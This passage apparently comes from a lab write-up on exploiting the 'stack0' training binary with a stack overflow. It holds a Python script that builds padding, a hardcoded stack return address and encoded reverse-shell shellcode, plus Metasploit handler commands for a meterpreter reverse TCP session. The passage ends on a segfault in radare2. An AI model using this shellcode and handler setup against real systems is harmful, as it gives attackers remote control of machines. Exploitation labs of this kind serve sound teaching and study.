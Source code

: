 We noticed that $esp is the same every crash so we will use it

{% highlight Python %}
# esp = 0xbffff6a0

buf =  "\x41" * 80
buf += "\xa0\xf6\xff\xbf"
buf += "\x3f\x4a\x2f\x40\x3f\xf5\x4a\x92\xfc\x91\xf5\x41\x99"
buf += "\x27\xfc\x27\xf9\x37\x42\x3f\xf5\x4b\x48\x2f\x9f\x49"
buf += "\xb8\x23\x55\x58\xf9\xd9\xc4\xd9\x74\x24\xf4\x5e\x31"
buf += "\xc9\xb1\x2d\x83\xee\xfc\x31\x46\x0f\x03\x46\x2c\xb7"
buf += "\xad\x23\xf5\x8d\x98\x35\xeb\x2e\xfd\xc2\x2f\x25\xa6"
buf += "\x1b\xe6\x74\x71\x6d\xa8\x6f\x7d\xdd\x51\x13\x69\x21"
buf += "\x55\x07\xc6\xaf\x3e\xbc\x83\x03\x58\x39\xc9\xe3\x32"
buf += "\x1b\xaf\xa5\xe1\x25\x37\x07\xb3\xd3\xa3\x99\xe0\x9b"
buf += "\x92\x21\x92\xa2\x33\xf4\x0e\x36\x40\x6f\x45\x03\x12"
buf += "\x7b\xd3\xdf\x01\xfe\xab\xf9\xe6\x92\x26\x52\xde\xee"
buf += "\xf6\x4c\xec\x61\x75\xd5\x78\x76\x88\x76\x6a\x67\x8b"
buf += "\x55\x89\xf5\x37\x69\x7c\x94\x49\xf9\x29\x13\x8f\x46"
buf += "\xde\x06\xe7\xf4\x8d\x0c\x49\x0c\xcc\x21\x4c\xcd\xab"
buf += "\xd2\x25\xee\x3e\xb7\x7a\xce\x09\x57\xe8\x17\x75\x7f"
buf += "\xbd\x85\xce\x1f\x92\x9d\x0a\x23\xaf\xf1\x36\x87\x48"
buf += "\xc0\xc3\x5d\xb8\x38\xc1\xab\x0e\xfc\x0b\x8f\xce\x8d"
buf += "\x73\x8c\x45\x2e\xb2\x1f\x0d\x27\xc4\xe2\x98\xbd\xfd"
buf += "\xe9\x64\xd4\xfc\xd0\xbf\x3f\x81\x84"
buf +=  "\x43" * (500 - 80 - 4 - 185)

with open ('payload.txt', 'w') as f:
  f.write(buf)

{% endhighlight %}

Before we fire our exploit we need to set our handler first, open new terminal and write

{% highlight shell-session %}
$ msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.0.2.15
lhost => 10.0.2.15
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job 0.
[*] [2017.12.18-12:02:28] Started reverse TCP handler on 10.0.2.15:4444
{% endhighlight %}

Now move to first terminal

{% highlight shell-session %}
[root:~/Downloads]# r2 -d stack0 -e dbg.profile=r2profile.rr2
Process with PID 15566 started...
= attach 15566 15566
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
you have changed the 'modified' variable
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 ret=0
[0xbffff75c]>
{% endhighlight %}

